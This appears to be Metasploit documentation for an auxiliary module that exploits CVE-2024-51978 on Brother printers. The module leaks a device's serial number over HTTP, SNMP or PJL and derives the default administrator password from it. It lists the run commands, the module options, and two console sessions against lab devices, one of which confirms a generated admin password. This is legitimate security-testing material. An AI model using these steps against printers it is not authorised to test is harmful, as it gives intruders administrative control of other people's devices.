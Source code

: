 ## Vulnerable Application

By leaking a target devices serial number, a remote attacker can generate the target devices default
administrator password. The target device may leak its serial number via unauthenticated HTTP, HTTPS, IPP,
SNMP, or PJL requests.

## Testing

## Verification Steps

1. Start msfconsole
2. `use auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `run`

## Options

### TargetSerial
A serial number to use for this target. If none is specified, the target will be queried via either HTTP, SNMP, or PJL
to discover the serial number (as per the `DiscoverSerialVia` option).

### DiscoverSerialVia
The technique to use to discover the serial number. Can be one of `AUTO`, `HTTP`, `SNMP`, or `PJL`. The default is `AUTO`.

### SaltLookupIndex
The index into the salt table to use when generating the default password. The default is `254`, which is the expected
value for Brother devices.

### SaltData
The salt data to use when generating the default password. By default, no salt data is required.

### ValidatePassword
Validate the default password by attempting to login. By default, this is set to `true`.

## Scenarios

_Note: In these example scenarios, the leaked serial numbers have been redacted with `***************`._

### MFC-L9570CDW

In this example, the target `MFC-L9570CDW` device was running the latest firmware at the time of testing (June 20, 2025),
whereby the `MAIN` version was `ZQ2503251054`, and the `SUB1` version was `1.35`. We can note that while the serial
number could not be leaked via HTTPS (via CVE-2024-51977), we were able to leak the serial number via SNMP and then
proceed to generate the correct default administrator password. The module validated that this password value is still
the default administrator password for the device.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set VERBOSE true
VERBOSE => true
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.62
RHOSTS => 192.168.86.62
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.62              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.62
[*] Attempting to leak serial number via HTTP
[-] Unexpected HTTP response code: 302
[*] Attempting to leak serial number via SNMP
[*] Leaked target serial number via SNMP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: r/5LM&U>
[*] Attempting to validate password
[+] Successfully validated the administrator password: r/5LM&U>
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```

### DCP-L2530DW

In this example, the target `DCP-L2530DW` device was running the following firmware version, whereby the `MAIN` version
was `ZC2403082049`, and the `SUB1` version was `1.04`. We can note that the serial number was successfully leaked via
HTTPS (via CVE-2024-51977), however the password value generated was not the devices default password, so validation
did not succeed.

```
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > set RHOSTS 192.168.86.3
RHOSTS => 192.168.86.3
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > show options 

Module options (auxiliary/admin/misc/brother_default_admin_auth_bypass_cve_2024_51978):

   Name               Current Setting            Required  Description
   ----               ---------------            --------  -----------
   COMMUNITY          public                     yes       SNMP Community String
   PJL_RPORT          9100                       yes       The target port number for PJL
   Proxies                                       no        A proxy chain of format type:host:port[,type:host:port][...]. Supported p
                                                           roxies: sapni, socks4, socks5, socks5h, http
   RETRIES            1                          yes       SNMP Retries
   RHOSTS             192.168.86.3               yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                                           /basics/using-metasploit.html
   RPORT              443                        yes       The target port (TCP)
   SNMP_OID_SERAILNO  1.3.6.1.2.1.43.5.1.1.17.1  yes       The SNMP OID for the serial number
   SNMP_RPORT         161                        yes       The target port number for SNMP
   SSL                true                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI          /                          yes       The base URI path to the web admin console
   TIMEOUT            1                          yes       SNMP Timeout
   VERSION            1                          yes       SNMP Version <1/2c>
   VHOST                                         no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) > run
[*] Running module against 192.168.86.3
[*] Attempting to leak serial number via HTTP
[*] Leaked target serial number via HTTP: ***************
[*] Generating default password with salt lookup index 254 and salt data 7HOLDhk'
[*] Generated password value: pX-KDn3+
[*] Attempting to validate password
[-] Failed to login with the administrator password: pX-KDn3+
[*] Auxiliary module execution completed
msf6 auxiliary(admin/misc/brother_default_admin_auth_bypass_cve_2024_51978) >
```
